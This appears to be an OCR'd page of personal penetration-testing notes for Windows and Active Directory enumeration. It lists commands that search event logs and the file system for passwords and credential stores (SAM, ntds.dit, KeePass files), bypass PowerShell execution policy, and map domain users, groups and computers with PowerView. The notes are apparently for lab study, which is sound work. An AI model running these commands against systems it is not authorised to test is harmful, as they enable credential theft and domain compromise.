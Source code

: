 ```bash
> LOOK IN THE EVENT VIEWER FOR PASSWORDS # should go to Event Viewer → Events from Script Block Logging are in Application and Services → Microsoft → Windows → PowerShell → Operational then search more . Apply filter for 4104 events , should appear in top 5
# We can obtain the IP address and port number of applications running on servers integrated with AD by simply enumerating all SPNs in the domain, meaning we don't need to run a broad port scan.
> setspn -L iis_service # or any server,client you discover
> net accounts # Obtain the account policy, lockout threshold
> mountvol # to list all drives that are currently mounted) (no mount points might be interesting have a look at it
Get-ChildItem -Path C:\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.log,*.kdbx,*.git,*.rdp,*.config,*cups*,*print*,*secret*,*cred*,*.ini,SYSTEM,SAM,SECURITY,ntds.dit -File -Recurse -ErrorAction SilentlyContinue | Where-Object { -not ($_.FullName -like "C:\Windows\servicing\LCU\*") -and -not ($_.FullName -like "C:\Windows\Microsoft.NET\Framework\*") -and -not ($_.FullName -like "C:\Windows\WinSxS\amd*") -and -not ($_.FullName -like "C:\Windows\WinSxS\x*")}
# MONEYYYYY
> netstat -p tcp
> netstat -p tcp -f
> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
> wevtutil qe Security /rd:true /f:text \| Select-String "/user" #	Searching security event logs
> wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 \| findstr "/user" # Passing credentials to wevtutil
> Get-WinEvent -LogName security \| where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } \| Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }} 
```

### PowerView.ps1

```bash
# This will allow you to run scripts
powershell -ep bypass
...
# Load PowerView (once it's already installed)
> . ./PowerView.ps1 # or Import-Module C:\\Tools\PowerView.ps1
# See the structure
> Get-NetDomain
# Get the domain controller IP, possibly end target
> Get-NetDomainController
# Important Policies
> Get-DomainPolicy
# Get password policy, important insights while cracking passwords 
> (Get-DomainPolicy)."system access"
# Information about the user you have access to, can be a lot of information
> Get-NetUser
# Only pull down the usernames
> Get-NetUser | select samaccountname # or select cn
> Get-ADUser -Identity YourUsername -Properties *
# See when the users last changed their passwords, if before policy change, may be weaker
> Get-UserProperty -Properties pwdlastset,logoncount
# See how many times each user has logged on, great way to identify honeypot accounts
> Get-UserProperty -Properties *
# See who can RDP
> Get-NetGroupMember "Remote Desktop Users"
# Enumerate the computer objects
> Get-NetComputer
# Get a ton of information about the computers
> Get-NetComputer -FullData # '| select {propertyName}' in order to nail down certain information, such as operating system
> Get-NetComputer | select operatingsystem,dnshostname # It's a good idea to grab this information early in the assessment to determine the relative age of the systems and to locate potentially weak targets.
# Map a computer to an IP address
> Resolve-IPAddress dev04.medtech.com
# Enumerate groups
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname